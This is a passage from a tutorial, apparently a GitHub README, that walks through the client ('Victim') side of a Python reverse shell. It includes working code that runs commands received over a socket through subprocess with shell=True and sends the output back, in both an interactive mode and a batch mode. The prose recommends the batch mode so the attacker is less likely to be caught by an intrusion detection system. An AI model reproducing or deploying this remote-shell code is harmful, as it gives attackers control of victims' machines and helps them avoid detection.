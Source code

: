 ### Interactions
There are two more methods: 
* Online Interaction: instantly execute any command and returns the standard output `stdout`
* Offline Interaction: executes a list of commands and then return all results altogether to the attacker

Whether to use the online/offline command execution, it is totally up to the attacker. Offline is better to avoid number of interactions that increases the chance of getting detected by an Intrusion Detection System (IDS).

Let's add those methods to our code as well. To be noted, `subprocess.Popen()` is the main method we use to run a command.

```python
    def online_interaction(self):
        while True:
            print("[+] Awaiting Shell Commands...")
            user_command = self.client.recv(1024).decode()
            # print("received command: $ ", user_command)
            op = subprocess.Popen(user_command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
            output = op.stdout.read()
            output_error = op.stderr.read()

            print("[+] Sending Command Output...")
            if output == b"" and output_error == b"":
                self.client.send(b"client_msg: no visible output")
            else:
                self.client.send(output + output_error)
```

```python
    def offline_interaction(self):
        print("[+] Awaiting Shell Command List...")
        rec_user_command_list = self.client.recv(1024).decode()
        user_command_list = ast.literal_eval(rec_user_command_list)

        final_output = ""
        for command in user_command_list:
            op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
            output = op.stdout.read()
            output_error = op.stderr.read()
            final_output += command + "\n" + str(output) + "\n" + str(output_error) + "\n\n"
        self.client.send(final_output.encode())
```

### Main Program
Now, let's create an object of the `Victim` class, connect to the server by calling the `connect_to_server()` method, and choose whether to use `online` or `offline` method. Use your local IP address instead of the loopback one if you run the `server.py` and `client.py` in different machines.
```python
if __name__ == '__main__':
    choice = "online"  # "offline"
    victim = Victim('127.0.0.1', 4000)
    victim.connect_to_server()

    if choice == "online":
        victim.online_interaction()
    else:
        victim.offline_interaction()
```

